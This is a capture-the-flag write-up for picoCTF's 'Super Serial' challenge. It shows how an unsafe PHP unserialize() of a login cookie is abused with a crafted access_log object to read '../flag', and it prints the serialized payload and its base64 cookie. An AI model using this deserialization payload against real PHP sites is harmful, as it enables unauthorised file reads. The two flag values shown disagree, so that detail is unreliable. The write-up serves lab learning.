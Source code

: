 # Super Serial
### Points: 

## Category
#### Web Exploitation

## Question
#### 
### Hint
>#### 



## Solution
### Look at this website
![pico](a/0.png)
We must recover the flag stored on this website at `../flag`

An the site, there is only one page: `index.php`

There is also a `robots.txt`:

```
User-agent: *
Disallow: /admin.phps
```
![pico](a/01.png)

With this hint, we found other pages:

```
index.php
cookie.php
authentication.php
index.phps
cookie.phps
authentication.phps
```

We can see source code of pages in `.phps` files and there is something interesting:

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

The object supposed to be deserialized is `permissions` but it does not appear to be vulnerable (SQL injection):

```php
class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

	function is_admin() {
		$admin = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] == 1) {
				$admin = true;
			}
		}
		return $admin;
	}
}
```

However, we can serialize an another object which will allow us to read files on the server:

```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```

So, we create an `access_log` which will read `../flag`:

```php
echo(serialize(new access_log("../flag")));
// -> O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Encode it in base64 and put it in `login` cookie:

```
login: TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
![pico](a/06.png)

To sum up:

- `$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));` serialize an `access_log` object with `$log_file="../flag"`
- `$g = $perm->is_guest();` throw an error because `access_log` doesn't have `is_guest` method
- the error is catch by `catch(Error $e)`
- `die("Deserialization error. ".$perm);` call the `__toString` method of `access_log` which read `../flag` and display it content

And we get `Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}`

The flag is: `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`
![pico](a/1.png)

## Flag
`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`